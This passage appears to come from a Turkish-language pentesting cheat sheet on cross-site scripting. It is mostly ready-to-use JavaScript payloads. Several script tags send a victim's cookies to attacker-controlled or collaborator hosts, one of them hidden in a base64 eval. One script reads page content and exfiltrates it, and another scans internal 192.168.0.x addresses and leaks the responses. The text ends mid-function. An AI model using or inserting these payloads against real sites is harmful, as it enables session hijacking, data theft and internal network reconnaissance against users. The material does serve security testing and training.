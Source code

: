 ```javascript
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
{% hint style="info" %}
Eğer çerezde HTTPOnly bayrağı ayarlandıysa, **JavaScript'ten çerezlere erişemeyeceksiniz**. Ama burada [bu korumayı aşmanın bazı yolları](../hacking-with-cookies/#httponly) var, eğer şanslıysanız.
{% endhint %}

### Sayfa İçeriğini Çalmak
```javascript
var url = "http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8";
var attacker = "http://10.10.14.8/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
}
}
xhr.open('GET', url, true);
xhr.send(null);
```
### İç IP'leri Bulun
```html
<script>
var q = []
var collaboratorURL = 'http://5ntrut4mpce548i2yppn9jk1fsli97.burpcollaborator.net';
var wait = 2000
var n_threads = 51

// Prepare the fetchUrl functions to access all the possible
for(i=1;i<=255;i++){
q.push(
function(url){
return function(){
fetchUrl(url, wait);
}
}('http://192.168.0.'+i+':8080'));
}

// Launch n_threads threads that are going to be calling fetchUrl until there is no more functions in q
for(i=1; i<=n_threads; i++){
if(q.length) q.shift()();
}

function fetchUrl(url, wait){
console.log(url)
var controller = new AbortController(), signal = controller.signal;
fetch(url, {signal}).then(r=>r.text().then(text=>
{
location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
}
))
.catch(e => {
if(!String(e).includes("The user aborted a request") && q.length) {
q.shift()();
}
```